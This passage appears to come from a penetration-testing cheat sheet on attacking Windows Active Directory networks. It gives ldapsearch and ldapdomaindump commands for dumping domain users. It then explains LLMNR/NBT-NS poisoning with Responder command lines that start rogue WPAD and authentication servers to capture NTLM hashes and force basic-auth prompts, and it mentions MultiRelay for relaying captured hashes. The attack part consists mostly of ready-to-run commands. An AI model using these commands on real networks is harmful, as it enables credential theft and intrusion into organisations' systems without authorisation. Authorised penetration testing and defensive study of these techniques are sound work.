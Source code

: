 ```bash
ldapsearch -x -H LDAP_URI -s base namingcontexts # Get the actual domain
ldapsearch -x -H LDAP_URI -s sub -b 'DC=X,DC=local' #
# You can extract all users with the following command (require a user with a password)
ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TDL>"
```

[ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump) is an Active Directory information dumper via LDAP

```bash
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```

### LLMNR/NBT-NS Spoofing Attack

By responding to LLMNR/NBT-NS network traffic, we can spoof an authoritative source for name resolution to force communication with an out controlled system. We can then collect or relay authentication materials.
This mostly occurs when there are old mounted drives or applications that have hardcoded servers, and many times, just misconfigurations.
Both those LLMNR and NBT-NS uses NTLM and NTMLv2 hashes.

Here below is an example of the attack.

![LLMNR/NBT-NS Attack](LLMNR-NBT-NS.jpg)

Source: <https://itrtech.africa/blog/the-llmnr-nbt-ns-strike/>

[Responder](https://github.com/lgandx/Responder) is an LLMNR, NBT-NS and MDNS poisoner. It will answer to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix

```bash
# Listen for hashes
python Responder.py -I ETHERNER_INTERFACE -wrf
# Force a basic authentication pop-up instead of requiring the use of NetNTLMv2 credentials by using the F (ForceWpadAuth) and b (basic authentication).
python Responder.py -I eth0 -wfFbv

python Responder.py -I ETHERNER_INTERFACE -rdfwv # Built-in an HTTP Auth server, MSSQL Auth server, LDAP Auth server and WPAD Proxy Server
```

Options:

- **-r**: Listen to Microsoft SQL Authentication (NBT-NS queries for SQL Server lookup are using the Workstation Service name suffix)
- **-d**: Enable answers for netbios domain suffix queries.
- **-w**: Start the WPAD rogue proxy server.
- **-v**: Increase verbosity.
- **-f**: This option allows you to fingerprint a host that issued an NBT-NS or LLMNR query.

We can also use MultiRelay, which is a powerful pentest utility included in Responder's tools folder, giving you the ability to perform targeted NTLMv1 and NTLMv2 relay on a selected target. That relayed NTLMv1 or NTLMv2 hash will need to have access into that other machine
